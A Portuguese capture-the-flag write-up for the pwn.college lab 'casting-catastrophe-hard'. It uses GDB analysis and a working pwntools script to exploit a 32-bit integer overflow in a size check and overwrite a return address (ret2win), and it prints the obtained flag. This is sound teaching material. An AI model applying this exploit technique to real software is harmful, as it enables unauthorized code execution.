






# pwn.college — Casting Catastrophe Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Integer overflow via multiplication · Unsigned comparison bypass · 32-bit truncation abuse · ret2win · Return address overwrite · Stack layout analysis via GDB · Cyclic pattern offset discovery

---

## Descrição do Desafio

O desafio `casting-catastrophe-hard` é a versão mais difícil do `casting-catastrophe-easy`. A vulnerabilidade central é a mesma — integer overflow na multiplicação de dois valores fornecidos pelo usuário, com truncamento de 32 bits no `eax` e tamanho real de 64 bits no `rdx` passado ao `read`. A diferença fundamental é que **o binário não imprime mais o layout do stack frame**, forçando o uso do GDB para descobrir o offset até o return address e o endereço de `win`.

As proteções do binário são as mesmas da versão easy:

- **Sem PIE** — endereços fixos em todas as execuções
- **Sem canary** — overflow sem detecção
- **NX habilitado** — stack não executável

---

## Reconhecimento Inicial — GDB

Como o binário não imprime as informações do stack, o primeiro passo foi abrir o GDB e inspecionar as funções disponíveis.



Informações extraídas:

- Endereço de `win()`: `0x0000000000401a84` (fixo, sem PIE)
- Endereço de `challenge()`: `0x0000000000401b8b`
- Endereço de `main()`: `0x0000000000401db5`

---

## Analisando a Verificação de Tamanho

Com o GDB, foi possível inspecionar o disassembly de `challenge` e identificar a instrução de comparação:



```asm
imul  eax, edx          ; eax = num_payloads * bytes_per_payload (32 bits)
cmp   eax, 0x79         ; compara com 121 (0x79)
jbe   challenge+405     ; se <= 121 (unsigned), continua
```

Diferente da versão easy (que comparava com `0x16` = 22), aqui o limite é `0x79` = **121**. A lógica de exploração, porém, é idêntica:

- `jbe` é uma comparação **unsigned** → números negativos não funcionam
- `imul` trunca o resultado para 32 bits em `eax`
- `read` usa `rdx` com o valor completo de 64 bits

Os mesmos dois valores da versão easy funcionam aqui, já que `13 × 330382100 = 0x100000004`, cujos 32 bits inferiores são `0x4` = 4 ≤ 121 ✅.

---

## Confirmando o rdx antes do read

Para garantir que o `rdx` de fato carregava o valor de 64 bits completo no momento do `read`, foi possível inspecionar o registrador com o GDB logo antes da chamada:



```
=> 0x401d68 <challenge+477>:  call  0x401170 <read@plt>
(gdb) info reg $rdx
rdx    0x100000004    4294967300
```

O `rdx` carregava `0x100000004` = ~4GB — mais do que suficiente para o overflow.

---

## Descobrindo o Offset — Cyclic Pattern

Sem o stack frame impresso pelo binário, foi necessário usar um **cyclic pattern** para encontrar o offset entre o início do buffer e o return address.

O payload enviado ao `read` foi um cyclic de 200 bytes — valor escolhido por ser maior que o offset esperado, mas dentro do limite que o `rdx` gigante permite:

```python
from pwn import *
cyclic(200)
```

Após o crash, o GDB apontou para `challenge+477` e foi possível inspecionar `$rbp+0x8` (posição do return address):



```
(gdb) x/gx $rbp+0x8
0x7ffecca0db98: 0x6261616f6261616e
```

Com o valor `0x6261616f6261616e` em mãos, basta usar `cyclic_find` para obter o offset:



```python
>>> cyclic_find(0x6261616f6261616e, n=4)
152
```

O return address está **152 bytes após o início do buffer**.

---

## Montando o Exploit

Com todas as informações levantadas via GDB:

- **num_payloads:** `13`
- **bytes_per_payload:** `330382100`
- **Produto:** `0x100000004` → `eax = 4` (passa no `jbe`, já que 4 ≤ 121), `rdx = 4.294.967.300` (read ilimitado)
- **Offset até o return address:** 152 bytes (descoberto via cyclic)
- **Endereço de `win`:** `0x0000000000401a84` (fixo, sem PIE)



```python
from pwn import *

PATH = '/challenge/casting-catastrophe-hard'

p = process(PATH)

p.sendline(b"13")
p.sendline(b"330382100")

payload = b"A" * 152 + p64(0x0000000000401a84)

p.sendline(payload)
p.interactive()
```

---

## Resultado Final

```
You win! Here is your flag:
pwn.college{UQqGpo46atNVXvbCdNJaSRV1JGl.dhTOywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. GDB → inspecionar funções → win em 0x401a84 (fixo, sem PIE)
2. disas challenge → imul eax,edx + cmp eax,0x79 + jbe → verificação unsigned, limite = 121
3. jbe unsigned → números negativos não funcionam
4. imul trunca para 32 bits → overflow: 13 × 330382100 = 0x100000004
5. eax = 0x4 (32 bits inferiores) → jbe: 4 ≤ 121 ✅ passa na verificação
6. rdx = 0x100000004 (64 bits completos) → read aceita ~4GB ✅
7. cyclic(200) → crash → cyclic_find(0x6261616f6261616e) → offset = 152
8. 152 As + p64(0x401a84) → ret2win → flag obtida
```

---

## Comparação entre Easy e Hard

| | casting-catastrophe-easy | casting-catastrophe-hard |
|---|---|---|
| Stack frame impresso | ✅ Sim | ❌ Não |
| Limite de tamanho | `0x16` (22) | `0x79` (121) |
| Offset até o return address | 56 bytes (informado) | 152 bytes (cyclic + GDB) |
| Endereço de `win` | `0x401ffd` (informado) | `0x401a84` (GDB) |
| Verificação de tamanho | `jbe` (unsigned) | `jbe` (unsigned) |
| Bypass | Integer overflow: 13 × 330382100 | Mesmo bypass |
| PIE | ❌ No PIE | ❌ No PIE |
| Canary | ❌ Sem canary | ❌ Sem canary |
